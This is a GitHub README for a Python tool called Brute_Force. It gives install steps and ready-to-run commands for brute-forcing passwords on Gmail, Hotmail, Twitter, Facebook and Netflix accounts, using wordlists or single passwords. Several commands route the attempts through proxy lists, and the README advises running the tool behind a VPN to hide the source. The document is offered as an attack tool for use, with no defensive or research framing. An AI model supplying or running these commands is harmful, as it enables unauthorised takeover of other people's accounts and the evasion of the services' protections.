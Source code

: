 # Brute_Force
[![Python 3.7](https://img.shields.io/badge/Python-3.7-blue.svg)](http://www.python.org/download/)
[![GPL](https://img.shields.io/badge/GPL-V3.0-red.svg)](https://www.gnu.org/licenses/gpl-3.0.html)
[![Termux](https://img.shields.io/badge/Termux-Android-brightgreen.svg)](https://termux.com/)
![platform](https://img.shields.io/badge/Platform-Linux%7CMacOS%7CWindows-brightgreen.svg)
![Twitter](https://img.shields.io/twitter/follow/Matrix0700.svg?style=social&label=Follow)
![alt text](https://1.bp.blogspot.com/-oPEVZN0ymsc/XS59nlfrrgI/AAAAAAAAPmI/5TsU1GjCzsE32ognWuV1xI-5jUvLjCkdgCLcBGAs/s1600/Brute_Force_1.png)
![alt text](https://1.bp.blogspot.com/-SIeGPGxLUWQ/XS59nkXfYEI/AAAAAAAAPmM/P0-rKgkEjm0iFTrhpwhxBAV7vAKAo0KPQCLcBGAs/s1600/Brute_Force_2.png)
## install :
```bash
sudo apt install python3 python3-pip

pip3 install proxylist

pip3 install mechanize
```


# Usage:

## BruteForce Gmail Attack
```bash
python3 Brute_Force.py -g Account@gmail.com -l File_list

python3 Brute_Force.py -g Account@gmail.com -p Password_Single
```


## BruteForce Hotmail Attack
```bash
python3 Brute_Force.py -t Account@hotmail.com -l File_list

python3 Brute_Force.py -t Account@hotmail.com -p Password_Single
```


## BruteForce Twitter Attack

```bash
python3 Brute_Force.py -T Account_Twitter -l File_list
python3 Brute_Force.py -T Account_Twitter -l File_list -X proxy-list.txt

```
## BruteForce Facebook Attack

```bash
python3 Brute_Force.py -f Account_facebook -l File_list
python3 Brute_Force.py -f Account_facebook -l File_list -X proxy-list.txt
```
## BruteForce Netflix Attack

```bash
يفضل تشغيل VPN
Start On Vpn
python3 Brute_Force.py -n Account_Netflix -l File_list
python3 Brute_Force.py -n Account_Netflix -l File_list -X proxy-list.txt


وترقبووو المزيد 
```



